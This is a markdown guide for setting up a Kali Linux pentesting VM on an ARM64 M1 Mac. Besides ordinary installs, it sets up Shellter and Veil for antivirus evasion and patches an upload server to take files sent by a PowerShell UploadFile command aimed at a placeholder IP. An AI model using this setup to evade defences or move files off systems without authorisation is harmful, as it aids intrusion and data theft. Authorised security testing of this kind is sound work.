 # Install tools on Kali (Arm64 M1)

## Install UTM Shared Folder

Install Spice Guest Tools `https://gist.github.com/lokka30/e2f04045c3b982690279d5ca8da3acb9#file-spice-guest-tools-debian-utm-md`

```bash
sudo apt install spice-vdagent spice-webdavd
# Run spice-vdagent
echo "# Install Spice Guest Tools"  >> .zshrc
echo "spice-vdagent" >> .zshrc
```

## Install Run x86 apps on Arm64

```bash
sudo apt update
sudo apt install -y qemu-user-static binfmt-support
sudo dpkg --add-architecture amd64
sudo apt update
sudo apt install libc6:amd64
```

## Install Docker 

```bash
kali@kali:~$ sudo apt update
kali@kali:~$ sudo apt install -y docker.io
kali@kali:~$ sudo systemctl enable docker --now
```

## Install Shellter x86 only

* **Limitation**: Require x86, 32bit windows only
* Install Shellter for AV Evasion `https://github.com/dekadentno/bootleg-shellter-docker`

```docker
# Dockerfile
FROM debian:bookworm-slim

RUN apt-get update && \
    apt-get install -y wget nano && \
    dpkg --add-architecture i386 && \
    apt-get update && \
    apt-get install -y wine32 && \
    rm -rf /var/lib/apt/lists/*

RUN wget https://github.com/ParrotSec/shellter/blob/master/shellter.exe -O /usr/bin/shellter && \
    chmod 775 /usr/bin/shellter && \
    cp /usr/bin/shellter /usr/share/shellter.exe

ENTRYPOINT ["bash"]
```

```bash
sudo docker build --network host --platform linux/amd64 -t shellter:7.2 .
docker run -it --rm shellter:7.2
```

## Install Veil Framework x86 only

* **Limitation**: Require x86 
* Install Veil for AV Evasion `https://github.com/Veil-Framework/Veil`


```bash
sudo apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

## Install .NET 8

Install script `https://learn.microsoft.com/en-us/dotnet/core/install/linux-scripted-manual`

```bash
wget https://dot.net/v1/dotnet-install.sh -O dotnet-install.sh
chmod +x ./dotnet-install.sh
./dotnet-install.sh --channel 8.0 --runtime dotnet
export DOTNET_ROOT=~/.dotnet
export PATH=$PATH:$DOTNET_ROOT:$DOTNET_ROOT/tools
# Add permanently to .zshrc
echo "# Install .NET" >> .zshrc
echo "export DOTNET_ROOT=~/.dotnet"  >> .zshrc
echo "export PATH=$PATH:$DOTNET_ROOT:$DOTNET_ROOT/tools"  >> .zshrc
```

## Install Powershell

Install script `https://learn.microsoft.com/en-us/powershell/scripting/install/install-other-linux?view=powershell-7.4#install-as-a-net-global-tool`

```bash
dotnet tool install --global PowerShell
```

## Install ExploitDB and SearchSploit

```bash
sudo apt -y install exploitdb
```

## Install VS Code

* Navigate to `https://code.visualstudio.com/download`
* Click ARM64 to download ... arm64.deb
* Install with apt

```bash
sudo apt install code...arm64.deb
```

## Install WebDAV

```bash
sudo apt install python3-wsgidav
mkdir /home/kali/webdav
echo "WebDAV test" > /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

## Install HTTP Upload Server

```bash
pip install uploadserver
```

Patch uploadserver.receive_upload(handler)

* Support single or multiple files
* Support Powershell UploadFile
* `(New-Object Net.WebClient).UploadFile('http://IP/upload', 'some-file.txt');`

```python
# gedit /home/kali/.local/lib/python3.11/site-packages/uploadserver/__init__.py
# patch receive_upload(handler)
if 'file' in form:
    fields = form['file']
elif 'files' in form:
    fields = form['files']
else:
    return (http.HTTPStatus.BAD_REQUEST, 'Field "file" or "files" not found')
```

## TLDR

TL;DR: Tell us how touse the tools efficiently

```bash
sudo apt update && sudo apt install tldr
tldr --update
```
